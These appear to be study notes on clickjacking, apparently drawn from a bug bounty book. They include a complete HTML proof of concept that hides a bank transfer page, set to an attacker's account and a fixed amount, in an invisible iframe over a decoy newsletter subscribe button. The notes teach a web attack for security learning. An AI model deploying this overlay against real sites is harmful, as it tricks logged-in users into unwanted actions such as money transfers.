 Take a look at the full HTML page example:
```html
<html>
 <style>
 #victim-site {
 width:500px;
Clickjacking   147
 height:500px;
 opacity:0.00001; /*We then make the iframe invisible by setting its opacity to a very low value*/
 z-index:1; /*higher z-index value will be on top*/
 }
 #decoy {
 position:absolute; /*set decoy element to absolute to make the decoy site overlap with the iframe containing the victim site, Without the absolute position directive, HTML would display these elements on separate parts of the screen*/
 width:500px;
 height:500px;
 z-index:-1;
 }
 </style>
 <div id="decoy">
 <h3>Welcome to my site!</h3>
 <h3>This is a cybersecurity newsletter that focuses on bug
bounty news and write-ups! 
 Please subscribe to my newsletter below to receive new
cybersecurity articles in your email inbox!</h3>
 <form action="/subscribe" method="post">
 <label for="email">Email:</label>
 <br>
 <input type="text" id="email" value="Please enter your email!">
 <br><br> /*carefully position the iframe so the Transfer Balance button sits directly on top of this Subscribe button, using new lines created by HTML’s line break tag*/
 <input type="submit" value="Submit">
 </form>
 </div>
 <iframe id="victim-site"
 src="https://www.example.com/transfer_money? 
 recipient=attacker_account_12345&amount=5000" 
 width="500" height="500">
 </iframe>
</html>
```

so if we set the opacity back to 1, You can see that the Transfer Balance button is located directly on top of the Subscribe to Newsletter button![[Pasted image 20240204170516.png]]

Once we reset the opacity of the `iframe` to opacity:0.00001 to make the sensitive form invisible, the site looks like a normal newsletter page![[Pasted image 20240204170627.png]]
If the user is logged into the banking site, they’ll be logged into the `iframe` too, so the banking site’s server will recognize the requests sent by the `iframe` as legit. When the user clicks the seemingly harmless button, they’re executing a balance transfer on `example.com`!
==This is a simplified example. In reality, payment applications will not be implemented this way==, because it would violate data security standards
